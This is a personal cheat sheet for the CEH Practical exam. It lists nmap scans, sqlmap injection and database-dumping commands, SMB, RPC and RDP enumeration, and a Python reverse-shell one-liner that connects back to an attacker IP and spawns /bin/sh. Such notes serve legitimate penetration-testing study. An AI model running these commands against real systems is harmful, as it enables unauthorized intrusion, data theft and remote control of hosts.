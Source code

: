 # CEH-Practical-Cheatsheet
For this exam I'm writing

## NMAP

- Scan a single IP	            	 `nmap 192.168.1.1`
- Scan a host	                    `nmap www.testhostname.com`
- Scan a range of IPs	            `nmap 192.168.1.1-20`
- Scan a subnet	                    `nmap 192.168.1.0/24`
- Scan targets from a text file	    `nmap -iL list-of-ips.txt`

- Scan a single Port	                `nmap -p 22 192.168.1.1`
- Scan a range of ports	            `nmap -p 1-100 192.168.1.1`
- Scan 100 most common ports (Fast)	`nmap -F 192.168.1.1`
- Scan all 65535 ports	            `nmap -p- 192.168.1.1`

- Scan using TCP connect	                `nmap -sT 192.168.1.1`
- Scan using TCP SYN scan (default)	    `nmap -sS 192.168.1.1`
- Scan UDP ports	                        `nmap -sU -p 123,161,162 192.168.1.1`
- Scan selected ports - ignore discovery	`nmap -Pn -F 192.168.1.1`

- Detect OS and Services	            `nmap -A 192.168.1.1`
- Standard service detection	        `nmap -sV 192.168.1.1`
- More aggressive Service Detection	    `nmap -sV --version-intensity 5 192.168.1.1`
- Lighter banner grabbing detection	    `nmap -sV --version-intensity 0 192.168.1.1`

- Save default output to file	        `nmap -oN outputfile.txt 192.168.1.1`
- Save results as XML	                `nmap -oX outputfile.xml 192.168.1.1`
- Save results in a format for grep	    `nmap -oG outputfile.txt 192.168.1.1`
- Save in all formats	                `nmap -oA outputfile 192.168.1.1`


- Scan using default safe scripts	    `nmap -sV -sC 192.168.1.1`
- Get help for a script	                `nmap --script-help=ssl-heartbleed`
- Scan using a specific NSE script	    `nmap -sV -p 443 –script=ssl-heartbleed.nse 192.168.1.1`
- Scan with a set of scripts	        `nmap -sV --script=smb* 192.168.1.1`

- Gather page titles from HTTP services	`nmap --script=http-title 192.168.1.0/24`
- Get HTTP headers of web services	    `nmap --script=http-headers 192.168.1.0/24`
- Find web apps from known paths	        `nmap --script=http-enum 192.168.1.0/24`


## SQLMAP

- Simple usage `sqlmap -u “https://target_site.com/page/”`
- Automatic GET request parameter `sqlmap -u “https://target_site.com/page?p1=value1&p2=value2”`
- Use POST request `sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2"`
- Request file as input(get it from Burpsuite) `sqlmap -r request.txt`
- Use authenticated session with cookie `sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2" --cookie="Session_Cookie_Value"`
- Use authenticated session with auth headers `sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2" --headers="Authorization: Basic YWxhZGRpbjpvcGVuc2VzYW1l"` 
- Basic authentication `sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2" --auth-type=basic --auth-cred=username:password`

# Post exploitation(use these if the SQLi vuln is positive)

- List databases `sqlmap -u “https://target_site.com/page?p1=value1” --dbs`
- List tables of TARGET_DB `sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB --tables`
- List columns of TARGET_TABLE in TARGET_DB `sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB -T TARGET_TABLE --columns`
- Dump specific data of columns `sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB -T TARGET_TABLE -C "Col1,Col2" --dump`
- Fully dump table `sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB -T TARGET_TABLE --dump`
- Dump the entire database `sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB --dump`
- Custom SQL query `sqlmap -u “https://target_site.com/page?p1=value1” --sql-query "SELECT * FROM TARGET_DB;"`
- Get OS shell `sqlmap -u “https://target_site.com/page?p1=value1” --os-shell`
- Get SQL shell `sqlmap -u “https://target_site.com/page?p1=value1” --sqlmap-shell`
- Use attack techniques `sqlmap -u “https://target_site.com/page?p1=value1” --technique=BEUSTQ`
    - B: Boolean-based blind
    - E: Error-based
    - U: Union query-based
    - S: Stacked queries
    - T: Time-based blind
    - Q: Inline queries

### General purpose command

`sqlmap -u “https://target_site.com/page/”--proxy="http://127.0.0.1:8080/" --cookie=”SESSID=lred0jr6na1vmci;” --data=”p1=value1” -p p1 --level=5 --risk=3 --dbms=mysql --technique=BEUSTQ --force-ssl`

## Telnet enumeration

`telnet 192.168.0.1`

## FTP enumeration

`ftp 192.168.0.1`

## SMB Enumeration

`smbmap -H 192.168.0.1 -R`
`smbclient -L 192.168.0.1`
`smbclient \\\\192.168.0.1\\share`

## RPC Enumeration

`rpcclient -U "" -N 192.168.0.1`
`enumdomusers`
`queryuser <username>`

## RDP Enumeration

`xfreerdp /v:10.129.189.90 /cert:ignore /u:Administrator` 

## Shells

"python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.23\",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

### after obtaining shell

python -c 'ímport pty;pty.spawn("/bin/sh")'